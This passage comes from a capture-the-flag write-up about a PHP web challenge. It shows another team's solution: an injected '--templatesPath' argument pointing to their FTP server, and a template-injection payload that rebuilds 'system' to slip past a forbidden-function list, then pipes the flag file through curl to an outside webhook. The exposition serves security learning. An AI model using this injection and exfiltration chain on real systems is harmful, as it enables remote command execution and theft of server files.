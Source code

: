 Reference: [https://www.geeksforgeeks.org/php-urlencode-function/](https://www.geeksforgeeks.org/php-urlencode-function)

>The urlencode() function is an inbuilt function in PHP which is used to encode the url.
>
>This function returns a string which consist all non-alphanumeric characters except -_. and replace by the percent (%) sign followed by two hex digits and spaces encoded as plus (+) signs."

Thus, it would it work. I also tried this but no avail as well. So, here are their payload.

```
poem=Roses+are+red%0AViolets+are+blue%0ASugar+is+sweet+--templatesPath=ftp://anonymous:@<hostedserverip>:2121/
```

Based on `admin.php`, the poem needs to have certain amout of words & lines thus the words and spaces are created. Included there is a `templatePath` argument which points to their `ftp` instance. 

As for their payload, here are their payload.

{% raw %}
```bash
{% set cmd = ['s','y','s','t','e','m']|join('') %}
{{ ['cat /flag* | curl -X POST -d @- https://webhook.site/062c9157-61d7-4417-95f6-dd084c2b0c89'] | map(cmd) }}
```
{% endraw %}

They used `set cmd` to by pass the check of words that are disallowed in `config.php`.

```php
...
  $forbidden = [
        'system', 'exec', 'shell_exec', 'passthru', 'popen', 'proc_open',
        'assert', 'pcntl_exec', 'eval', 'call_user_func', 'ReflectionFunction','filter','~'
    ];
...
```
{: file="config.php"}

Other than that, they read the `flag.txt` which is at the root of the server and decided to post to their webhook. Here I realised that the code does not push the content of resulting template rendered to the user. Thus, using a webhook is a kinda a creative idea.

>Thus, you'll get the flag here `wgmy{eae236d68a96aed8af76923357728478}`.
{: .prompt-tip}

## Closing

So far, I think I will need more knowledge in order to be superior on this one. I decided to take on web challenges instead of other challenges because I thought I was good in web development so I might stand a chance. But, still it is a long way to go and a lot to learn. I didn't get to solve this one but almost I think. I might rewrite this because the content is really messy tho. Okay that's all folks. See you in the next one. Happy new year! 
